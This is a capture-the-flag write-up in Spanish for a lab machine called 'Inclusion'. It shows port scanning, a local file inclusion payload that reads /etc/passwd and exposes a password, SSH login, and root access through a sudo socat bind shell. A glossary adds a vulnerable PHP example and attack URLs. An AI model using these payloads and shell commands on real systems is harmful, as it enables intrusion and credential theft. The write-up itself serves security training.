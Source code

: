 # Machine Inclusion

## Informtion Gathering

1. Primero realizo un escaneo de puerto asi:

```
$ nmap -sV 10.10.59.190
``` 
2. El resultado es el siguiente:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
```

## Analisis de vulnerabilidades

- Luego ejecute dirb de esta manera
```
$ dirb http://10.10.59.190
```
- El resultado que me genero son unas URL que no sirven de nada

## Exploiting

- Al ver que la pagina web tiene un articulo de **LFI**, cuando doy click al botn me redirecciona a otra pagina en el cual tiene una descripcion de que es **LFI** pero su URL es esta:
```
http://10.10.59.190/article?name=lfiattack
```
- Entonces observe en la URL que hay un parámetro llamado **name**. Esto indica que el sitio web incluye información de otros lugares, lo que nos abre a un ataque de inclusión de archivos locales

- Para decirlo de otra manera. La página que estamos viendo está realmente vacía; sin embargo, incluye contenido de otra página. En el ejemplo, esa otra página es **rfiattack**, sin embargo, esto dependerá de qué enlace haya hecho clic.

- Las inclusiones de archivos locales son cuando esa entrada no se desinfecta correctamente, lo que nos permite manipular el enlace para abrir otros archivos. Probemos eso ahora con el **/etc/passwd** archivo, que nos dará una lista de cuentas de usuario en la máquina.

Haremos esto cambiando el bit al final de la URL, después del **=**. Sin embargo, no podemos simplemente cambiarlo para que sea **/etc/passwd**, porque eso solo se verá en el directorio actual , que obviamente no contendrá el archivo que estamos buscando. En su lugar, vamos a tener que volver al inicio del sistema de archivos y luego seguir desde allí.

Al final, tendremos una carga útil que se parece a esto **../../../../../../etc/passwd**. Observe las numerosas ocurrencias de **../**, que se utilizan para subir un directorio, lo que finalmente nos lleva de vuelta al directorio raíz del sistema de archivos. El número que use aquí no importa, siempre que haya suficientes para garantizar que volverá al principio.

- Entonces nuestro ataque final es este:
```
http://10.10.59.190/article?name=../../../../../../etc/passwd
```
- El resultado es el contenido de el **/etc/passwd** y hay un usuario y contraseña que es este:
```
falconfeast:rootpassword
```
- Pruebo esas contraseñas en **SSH** y ha funcionado

- Luego puedo sacar la bandera de **user.txt**
- Vamos a ejecutar el **sudo -l** para ver archivos se pueden ejecutar
- El resultado fue este:
```
(root) NOPASSWD: /usr/bin/socat
```
- Entonces decido buscar algun exploit y encontre que primero en la shell de la victima ejecuto esto:
```
$ sudo socat TCP4-LISTEN:1234,reusaddr EXEC:"/bin/sh"
```
- En maquina de Kali debo escuchar ese puerto asì colocando la IP de la maquina victima:
```
$ sudo socat – TCP4:10.10.59.190:1234
```
- Ya con esto soy **root** y puedo sacar la bandera de root

## Glosario

- **RFI:** 

- **LFI:** Un atacante puede usar la Inclusión de Archivos Locales (LFI) para engañar a la aplicación web para que exponga o ejecute archivos en el servidor web. Un ataque LFI puede llevar a la divulgación de información, a la ejecución remota de código, o incluso a Cross-site Scripting (XSS). Típicamente, LFI ocurre cuando una aplicación usa la ruta de un archivo como entrada. Si la aplicación trata esta entrada como confiable, se puede usar un archivo local en la declaración de inclusión.

- La inclusión de archivos locales es muy similar a la inclusión de archivos remotos (RFI). Sin embargo, un atacante que utilice LFI sólo puede incluir archivos locales (no archivos remotos como en el caso de RFI).

- El siguiente es un ejemplo de código PHP que es vulnerable a LFI:
```
* Obtener el nombre de archivo de una entrada GET

Example - http://example.com/?file=filename.php

$file = $_GET[&#39;file&#39;];

* Incluir el archivo de forma insegura

Example - filename.php

include(&#39;directory/&#39; . $file);

```
- En el ejemplo anterior, un atacante podría hacer la siguiente petición. Engaña a la aplicación para que ejecute un script PHP como un shell web que el atacante logró subir al servidor web.
```
http://example.com/?file=../../uploads/evil.php
```
- En este ejemplo, el archivo cargado por el atacante será incluido y ejecutado por el usuario que ejecuta la aplicación web. Eso permitiría a un atacante ejecutar cualquier código malicioso del lado del servidor que desee.

- Este es el peor de los casos. Un atacante no siempre tiene la capacidad de subir un archivo malicioso a la aplicación. Incluso si lo hicieran, no hay garantía de que la aplicación guarde el archivo en el mismo servidor en el que existe la vulnerabilidad LFI. Incluso entonces, el atacante aún necesitaría conocer la ruta del disco del archivo cargado.

- Incluso sin la capacidad de cargar y ejecutar código, una vulnerabilidad de Inclusión de Archivos Locales puede ser peligrosa. Un atacante todavía puede realizar un ataque de Directory Traversal / Path Traversal usando una vulnerabilidad LFI como sigue.
```
http://example.com/?file=../../../../etc/passwd
```
- En el ejemplo anterior, un atacante puede obtener el contenido del archivo /etc/passwd que contiene una lista de usuarios en el servidor. Del mismo modo, un atacante puede aprovechar la vulnerabilidad de Directory Traversal para acceder a los archivos de registro (por ejemplo, access.log o error.log de Apache), el código fuente y otra información confidencial. Esta información puede utilizarse luego para adelantar un ataque.

- **/usr/bin/socat:**

## Investigación

- **exploit /usr/bin/socat:** https://www.hackingarticles.in/linux-for-pentester-socat-privilege-escalation/

- https://gtfobins.github.io/gtfobins/socat/

- **shell TTY Python:** https://netsec.ws/?p=337

## Explotación maquina Inclusion

- https://muirlandoracle.co.uk/2020/03/14/inclusion-write-up/